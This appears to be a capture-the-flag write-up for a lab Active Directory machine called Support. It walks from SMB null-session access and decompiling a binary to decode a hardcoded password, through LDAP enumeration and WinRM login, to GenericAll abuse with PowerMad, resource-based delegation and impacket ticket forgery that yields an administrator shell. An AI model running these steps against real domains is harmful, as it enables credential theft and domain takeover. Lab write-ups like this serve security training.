 # Support (AD)

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Null Session

I found that SMB accepts null credentials for this machine:

<figure><img src="../../../.gitbook/assets/image (32) (2) (1).png" alt=""><figcaption></figcaption></figure>

Viewing the support-tools share, we find that it contains multiple binaries.

<figure><img src="../../../.gitbook/assets/image (22) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

There's only one that was interesting, and it was the `UserInfo.exe` file. I took it back to my Windows VM and used dnSpy to open it.

### dnSpy

When decompiled, it seems that the binary was sending LDAP queries:

<figure><img src="../../../.gitbook/assets/image (26) (1) (4).png" alt=""><figcaption></figcaption></figure>

Looking around, I also found this `password` function.

<figure><img src="../../../.gitbook/assets/image (18) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can decode this easily using some Python and following their logic.

```python
import base64
enc_pass="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key=b"armando"

array = base64.b64decode (enc_pass)
array1 = []

for i in range(len(array)):
        array1.append(chr(array[i] ^ key[i % len(key)] ^ 0xDF))

array1 = ''.join(array1)
print (array1)
```

This would output the password.

<figure><img src="../../../.gitbook/assets/image (33) (3).png" alt=""><figcaption></figcaption></figure>

### LDAPSearch

Then, since the binary does LDAP queries, I wanted to use the username and password given by the binary to query LDAP.

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

On analysing the output, I found a hidden password for the `support` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in as this `support` user.

<figure><img src="../../../.gitbook/assets/image (13) (4) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in, I started Bloodhound to enumerate for me. Upon reviewing the contents, I saw this interesting set of permissions over the DC.

<figure><img src="../../../.gitbook/assets/image (9) (1) (5).png" alt=""><figcaption></figcaption></figure>

We can use PowerMad and PowerView to abuse the `GenericAll` privileges.

### GenericAll Abuse

We can use this set of commands to create a new user:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount (Get-Variable -Name "FAKE01").Value -Password $(ConvertTo-SecureString 'password@123' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "DC").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FAKE01").Value + '$')
Get-ADComputer (Get-Variable -Name "DC").Value -Properties PrincipalsAllowedToDelegateToAccount
# on Linux from here 
impacket-getST support.htb/fake01 -dc-ip <IP> -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
smbexec.py support/Administrator@support.htb -no-pass -k
```
{% endcode %}

This would spawn in a shell for us.

How it works is that we first create a new user that has the Constrained Delegation privilege. Then, we are able to impersonate the administrator and request a ticket that we can use to gain a shell with `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>
